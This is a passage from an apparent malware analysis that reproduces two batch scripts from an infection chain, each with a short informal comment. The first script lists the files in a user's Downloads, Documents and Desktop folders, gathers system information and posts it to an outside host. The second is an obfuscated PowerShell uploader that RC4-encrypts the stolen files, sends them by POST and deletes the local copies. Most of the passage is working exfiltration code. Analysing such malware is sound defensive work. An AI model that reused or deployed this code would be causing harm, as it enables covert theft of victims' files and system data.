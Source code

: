 ### Fourth Batch Script: 54744204.bat (The Data Thief)

```bat
@echo off
pushd "%~dp0"
dir C:\Users\%username%\downloads\ /s > %~dp0d1.txt
dir C:\Users\%username%\documents\ /s > %~dp0d2.txt
dir C:\Users\%username%\desktop\ /s > %~dp0d3.txt
systeminfo > %~dp0d4.txt
timeout -t 5 /nobreak
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d1.txt" "%COMPUTERNAME%_down.txt" >nul
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d2.txt" "%COMPUTERNAME%_docu.txt" >nul
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d3.txt" "%COMPUTERNAME%_desk.txt" >nul
call 33283112.bat "https://ausbildungsbuddy.de/modules/mod_mail/src/upload.php" "d4.txt" "%COMPUTERNAME%_sys.txt" >nul
```

This one’s straight-up stealing:
- Lists everything in Downloads, Documents, and Desktop (`d1.txt`–`d3.txt`).
- Grabs system info like OS and hardware (`d4.txt`).
- Waits 5 seconds, then ships it all to `ausbildungsbuddy.de` using `33283112.bat`. Bold move!

### Fifth Batch Script: 33283112.bat (The Uploader)

```bat
@echo off
pushd %~dp0
set "tgurl12=%~1"
set fN12=fn
set fD12=fd
powershell -command "function dqjQqCAcuxwo{param ($AypZvQNXlqB,$oFoEuXrMFE);$OpsMmFLPLhtK = [System.Text.Encoding]::UTF8.GetBytes($AypZvQNXlqB);    $WTCOeBCxKCA = [System.Text.Encoding]::UTF8.GetBytes($oFoEuXrMFE);$exkQgtSevvHH = New-Object byte[](256);$aFHiHiPvSyCj = New-Object byte[](256);for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$exkQgtSevvHH[$IwMAnTWddEw] = $IwMAnTWddEw;$aFHiHiPvSyCj[$IwMAnTWddEw] = $WTCOeBCxKCA[$IwMAnTWddEw %% $WTCOeBCxKCA.Length];}$zTrCGqDmezfE = 0;for ($IwMAnTWddEw = 0; $IwMAnTWddEw -lt 256; $IwMAnTWddEw++) {$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw] + $aFHiHiPvSyCj[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;}$iFUDhaIUWPC = New-Object byte[] $OpsMmFLPLhtK.Length;$IwMAnTWddEw = 0;$zTrCGqDmezfE = 0;for ($ZBwUQRSnvRO = 0; $ZBwUQRSnvRO -lt $OpsMmFLPLhtK.Length; $ZBwUQRSnvRO++) {$IwMAnTWddEw = ($IwMAnTWddEw + 1) %% 256;$zTrCGqDmezfE = ($zTrCGqDmezfE + $exkQgtSevvHH[$IwMAnTWddEw]) %% 256;$zUGqmBHCJGBv = $exkQgtSevvHH[$IwMAnTWddEw];$exkQgtSevvHH[$IwMAnTWddEw] = $exkQgtSevvHH[$zTrCGqDmezfE];$exkQgtSevvHH[$zTrCGqDmezfE] = $zUGqmBHCJGBv;$WVKnqgCFOsmZ = ($exkQgtSevvHH[$IwMAnTWddEw] + $exkQgtSevvHH[$zTrCGqDmezfE]) %% 256;$iFUDhaIUWPC[$ZBwUQRSnvRO] = $OpsMmFLPLhtK[$ZBwUQRSnvRO] -bxor $exkQgtSevvHH[$WVKnqgCFOsmZ];}$yJmaZfkmCsIK = [System.Convert]::ToBase64String($iFUDhaIUWPC);return $yJmaZfkmCsIK;};$bWcJabpQCOOF=(Get-Date).Ticks.ToString();$JbCLXcveMq='%tgurl12%';$lXbJSrwCOBN='%~3';$aRmxzjRXbQEn='%~dp0%~2';$ldbmjzEjszem=gc -Path $aRmxzjRXbQEn -Raw | Out-String;Add-Type -AssemblyName 'System.Web';$lXbJSrwCOBN=dqjQqCAcuxwo -AypZvQNXlqB $lXbJSrwCOBN -oFoEuXrMFE $bWcJabpQCOOF;$ldbmjzEjszem=dqjQqCAcuxwo -AypZvQNXlqB $ldbmjzEjszem -oFoEuXrMFE $bWcJabpQCOOF;$mkgEkQZnuGV = [System.Web.HttpUtility]::ParseQueryString('');$mkgEkQZnuGV['%fN12%']=$lXbJSrwCOBN;$mkgEkQZnuGV['%fD12%']=$ldbmjzEjszem;$mkgEkQZnuGV['r']=$bWcJabpQCOOF;$EYHCSDhekYzP=$mkgEkQZnuGV.ToString();$FLuapLlREN=[System.Text.Encoding]::UTF8.GetBytes($EYHCSDhekYzP);$AUkaAFoqKP=[System.Net.WebRequest]::Create($JbCLXcveMq);$AUkaAFoqKP.Method='PO'+'ST';$AUkaAFoqKP.ContentType='appl'+'ic'+'ation/x'+'-ww'+'w-for'+'m-ur'+'le'+'nco'+'ded';$AUkaAFoqKP.UserAgent = 'Moz'+'illa/5'+'.0 (Wi'+'ndows N'+'T 10.0;Wi'+'n64;x64)';$AUkaAFoqKP.ContentLength=$FLuapLlREN.Length;$KcSSLPNfvFL = $AUkaAFoqKP.GetRequestStream();$KcSSLPNfvFL.Write($FLuapLlREN,0,$FLuapLlREN.Length);$KcSSLPNfvFL.Close();$OUeDTggoYiM=$AUkaAFoqKP.GetResponse();if($OUeDTggoYiM.StatusCode -eq [System.Net.HttpStatusCode]::OK){Remove-Item -Path $aRmxzjRXbQEn;$ucBwEXJQluYC='%~dp0up'+'o'+'k.t'+'xt';New-Item -ItemType File -Path $ucBwEXJQluYC;}" > nul
```
